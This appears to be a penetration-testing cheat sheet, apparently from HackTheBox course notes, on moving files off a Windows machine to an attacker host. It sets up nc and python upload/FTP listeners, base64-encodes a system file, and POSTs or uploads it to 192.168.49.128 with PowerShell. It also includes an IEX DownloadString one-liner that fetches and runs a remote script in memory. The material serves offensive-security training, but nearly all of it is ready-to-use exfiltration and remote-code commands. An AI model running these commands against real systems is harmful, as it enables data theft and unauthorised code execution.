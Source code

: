 ### Base64 Encode & Decode

```powershell
  [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
  # IyBDb3B5cmlnaHQgKGMpIDE5OTMtMjAwO ....
  Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
  # Hash 
  # 3688374325B992DEF12793500307566D
```

```bash
  echo "IyBDb3B5cmlnaHQgKGMpIDE5OTMtMjAwO ...." | base64 -d > hosts
  md5sum hosts
  # 3688374325b992def12793500307566d  hosts
```

** PowerShell Web Uploads**

```bash
  nc -lvnp 8000 
    # Listening on [any] 8000 ...
  echo "IyBDb3B5cmlnaHQgKG...." | base64 -d -w 0 > hosts
```

```powershell
  $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
  Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

### FTP Uploads

```bash
  sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
  C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

### PowerShell Web Uploads

```bash
  pip3 install uploadserver
  python3 -m uploadserver 8000

```
[PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) is a PowerShell script that uses Invoke-RestMethod to upload files to the uploadserver.
```powershell
  IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
  Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
